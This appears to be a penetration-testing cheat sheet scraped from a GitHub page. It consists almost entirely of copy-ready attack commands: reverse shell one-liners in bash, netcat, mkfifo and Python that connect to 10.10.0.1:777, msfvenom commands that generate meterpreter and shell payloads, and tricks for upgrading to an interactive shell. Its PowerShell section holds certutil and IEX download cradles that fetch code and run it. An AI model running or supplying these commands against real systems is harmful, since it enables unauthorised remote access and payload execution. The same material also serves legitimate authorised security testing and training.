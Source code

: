 sudo python3 -m http.server 80
## Linux reverse shell

<a href="https://weibell.github.io/reverse-shell-generator/">Something</a>
```bash
https://weibell.github.io/reverse-shell-generator/
bash -i >& /dev/tcp/10.10.0.1/777 0>&1
nc -e /bin/bash 10.10.0.1 777
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.1 777 \>/tmp/f
python \-c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("10.10.0.1",777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.0.1 LPORT=777 -f exe > reverse.exe
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.0.1 LPORT=777 -f exe > reverse.exe
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.0.1 LPORT=777 -f elf >reverse.elf
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.0.1 LPORT=777 -f elf >reverse.elf

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
```
## Interactive shell
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
perl -e 'exec "/bin/bash";'
/bin/sh -i

perl: exec "/bin/bash";
ruby: exec "/bin/bash"
lua: os.execute('/bin/bash')

CTRL-Z
stty raw -echo
fg

export TERM=xterm

rlwrap nc -vlnp 1234
```
## Download files
```powershell
certutil.exe -urlcache -split -f http:// .exe
iwr http:// -outfile .exe
powershell.exe IEX (New-Object Net.WebClient).DownloadFile("")
```
## Download and run powershell script
```powershell
powershell.exe IEX (New-Object Net.WebClient).DownloadString("")
powershell.exe -e https://raikia.com/tool-powershell-encoder
```
## Powershell.exe Bit
```powershell
[Environment]::Is64BitProcess

C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe (32bit)
C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe (32bit -> 64bit)
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe (64bit)
```
